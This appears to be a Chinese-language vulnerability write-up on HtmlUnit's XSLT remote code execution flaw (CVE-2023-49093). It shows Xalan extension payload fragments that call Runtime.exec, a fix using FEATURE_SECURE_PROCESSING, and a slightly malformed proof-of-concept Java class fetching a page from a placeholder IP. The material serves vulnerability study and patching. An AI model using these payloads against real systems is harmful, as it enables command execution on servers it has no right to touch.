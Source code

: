 ##### Xalan

-   Xalan 是一个开源的 XML 处理器，主要用于 XSLT 转换以及 XPath 查询。它最初是由 Apache XML 项目开发的一部分，其中包括了 Xalan-Java 和 Xalan-C++ 两个主要版本。Xalan-Java 是用 Java 语言编写的 XSLT 处理器，能够将 XML 文档转换为其他格式。
    
-   声明了 XSLT 命名空间为`xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime"`，你就可以在 XML 文档中使用 "rt" 前缀来引用这个命名空间中定义的元素和属性。
    
-   下面 Java 调用扩展函数，有关 Java 扩展的三种不同格式的命名空间声明。文中的 poc 是包格式命名空间
    
    -   **创建对象的实例**：XSLT 中并没有默认对象的概念，命名空间声明不能唯一地标识一个类，所以要创建实例。`<xsl:variable name="rtobject" select="rt:getRuntime()"/>`：返回的是当前运行时环境的对象实例。
        
    -   **要在指定实例上调用实例方法**：
        
        -   `<xsl:variable name="process" select="rt:exec($rtobject,'open -a Calculator')"/>`，通过调用 `rt:exec` 函数，XSLT 尝试执行一个外部命令，执行结果将被存储在名为 "process" 的变量中。
            -   `<xsl:variable name="processString" select="ob:toString($process)"/>`XSLT 将结果转换成字符串。

### 修复方案

该漏洞的根本原因在于 HTMLUnit 没有对 XSL 转换进行充分的限制，从而导致了安全问题。具体来说，它没有对 XSLT 的外部连接进行适当的限制。由于 XSL 文件中引用了 Xalan 库，并利用库中函数导致了远程命令执行的漏洞。

针对此问题，作者的修复操作是在 xml/XSLTProcessor.java 文件中新增了一行代码：`transformerFactory.setFeature(XMLConstants.FEATURE_SECURE_PROCESSING, true);`

其中 `FEATURE_SECURE_PROCESSING` 是一个安全属性。设置为 true 后，指示实现在处理 XML 时采取安全措施，包括对外部连接的限制。这样就可以避免因为使用外部引用处理 XML/XSD/XSL 而出现问题。

## CVE-2023-49093

### 影响范围

HtmlUnit 3.8.0 之前版本

### 漏洞复现

Pom.xml

```bash
<dependency>
  <groupId>org.htmlunit</groupId>
  <artifactId>htmlunit</artifactId>
  <version>3.8.0</version>
</dependency>
```

Poc.java（==注意这里的浏览器版本是 BrowserVersion.INTERNET\_EXPLORER==）

```bash
package org.example;
import com.gargoylesoftware.htmlunit.BrowserVersion;
import com.gargoylesoftware.htmlunit.WebClient;
import com.gargoylesoftware.htmlunit.html.HtmlPage;
import org.junit.Test;

import java.io.IOException;

public class App {
    @Test
    public static void main(String[] args) throws IOException {
        try (final WebClient webClient = new WebClient(BrowserVersion.INTERNET_EXPLORER)) {
            // no you have a running browser and you can start doing real things
            // like going to a web page
            final HtmlPage page = "webClient.getPage("http://xxx.xxx.xxx.xxx/poc.html");
        }
    }
}
```